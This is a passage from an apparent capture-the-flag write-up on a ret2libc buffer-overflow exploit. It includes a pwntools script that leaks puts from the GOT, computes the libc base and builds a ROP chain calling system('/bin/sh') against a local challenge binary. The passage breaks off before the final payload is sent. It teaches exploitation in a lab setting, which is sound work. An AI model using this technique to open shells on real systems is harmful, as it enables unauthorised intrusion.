 ```shell
strings -t x libc.so.6 | grep "/bin/sh"         
 1cb42f /bin/sh
```

### Finding addresses
To find libc base address:

libc addr = `puts@libc` leak (or whichever addresses of `function@got` you used) - offset of `puts`

for the rest of the functions, we can just use the base address and add their relative offset

function = libc addr + offset of function

### Now we have everything, how do we put it together?
Since our current script just returns back to main, we can perform another ROP chain to execute a shell this time.

`padding + pop rdi + /bin/sh + system`

With that, let's put everything together.

```py
from pwn import *

# setup the binary
elf = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

p = process("./chall_patched")
context.binary = elf


# leaking puts@libc
payload = b'A' * 72 # padding
payload += p64(0x400653) # pop rdi ; ret
payload += p64(0x601018) # puts@GOT into the function argument
payload += p64(0x400490) # puts@plt
payload += p64(0x4005a7) # return to main so we can see output
p.sendline(payload) 

# puts@libc leak
p.recvuntil("make it!\n")
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("puts@libc leak address: " + hex(leak))

# look for offsets
# objdump -T libc.so.6 | grep -E "(system$|puts$)"
libc_puts_offset = 0x87bd0
libc_system_offset = 0x58740

# strings -t x libc.so.6 | grep "/bin/sh"
sh_offset = 0x1cb42f


# calculate for libc base address first
# then calculate for system address and /bin/sh address
libcbase = leak - libc_puts_offset
system = libcbase + libc_system_offset
sh = libcbase + sh_offset

payload2 = b'A' * 72 # padding again
payload2 += p64(0x400653) # pop rdi ; ret
payload2 += p64(sh) # shell as argument
payload2 += p64(system) # system calls shell: system(/bin/sh)
```
